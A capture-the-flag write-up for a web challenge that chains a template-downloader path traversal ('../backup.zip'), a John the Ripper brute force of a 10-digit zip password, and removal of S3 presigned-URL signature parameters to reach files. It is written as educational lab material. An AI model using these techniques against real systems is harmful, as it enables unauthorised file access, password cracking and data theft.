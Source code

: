 # Instant Development Company

The source of https://instant-development-company.secchallenge.crysys.hu/ reveals a link to the /debug folder.

```
...
<body>
    <a href="/" class="menu-button" style="text-align: justify;">Main page</a>
    <a href="/review" class="menu-button" style="text-align: justify;">Leave feedback</a>
    <a href="/debug" class="menu-button" style="text-align: justify;"></a>
...
```

There are a couple of potential attack points in that page. One is a template file viewer. Let's try that on debug.html with curl:

```shell
> curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates'  --data-raw 'template=debug.html'
{% extends "base.html" %}

{% block head %}
<title>Debug page</title>
{% endblock %}

{% block body %}
<div>
    <h1 style="text-align: center;">Debug</h1>

    <!-- [AUTOREMOVE] AN: I've created a backup of our contracts for archival purposes. It should be in a backup.zip file in the root directory. -->
    <!-- [AUTOREMOVE] AN: Unfortunately I kinda forgot the password, but I do remember that it only had numbers in it and it was 10 digits long. -->

    <form action="/ping" method="POST">
        <label for="addr">Ping address:</label>
        <input type="text" id="addr" name="addr" placeholder="google.com">
        <input type="submit" value="Ping">
    </form>

    <br><br>

    <form action="/download/templates" method="POST">
        <label for="template">Download site templates:</label>
        <select name="template" id="template">
            <option value="base.html">base.html</option>
            <option value="index.html">index.html</option>
            <option value="reviews.html">reviews.html</option>
            <option value="debug.html">debug.html</option>
            <option value="announce.html">announce.html</option>
        </select>
        <input type="submit" value="Download">
    </form>

    <br><br>

    <form action="/devmessage" method="POST">
        <label for="devmessage">Message other developers:</label>
        <input type="text" id="dev" name="dev" placeholder="developer">
        <input type="text" id="message" name="message" placeholder="message">
        <input type="submit" value="Send">
    </form>

</div>
{% endblock %}%
```

Bingo. There has to be a backup.zip somewhere with a password of 10 digits. Let's try downloading the zip with the template downloader again:

```shell
> curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates'  --data-raw 'template=../backup.zip' > backup.zip
```
Now run John the ripper to get the password:
```shell
> john --incremental=digits --min-length=10 --max-length=10 hash.txt
```

Unzip the file
```shell
> unzip -P REDACTED backup.zip
```

We find a file containing a bunch of S3 download links in the form of:
```
...
https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000&Expires=1635928981&Signature=00000000000000_0000000000000%3d
...
```

But we cannot download them:
```shell
> curl https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000&Expires=1635928981&Signature=00000000000000_0000000000000%3d
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Request has expired</Message><Expires>2021-10-13T20:41:40Z</Expires><ServerTime>2022-03-16T06:57:35Z</ServerTime><RequestId>7D3PB49BH510BXPD</RequestId><HostId>kpPQtioPMo0Tq+sY0b5wg5mlH+ZmJc/vwT7AAKwFrHSaxGLGt0cosQ1YwAqm2sAVfosziX8Tric=</HostId></Error>
```

Try removing the expires and signature part from the url:

```shell
> curl https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000
...bunch of text...
```
We just need to download all files and filter for the flag.
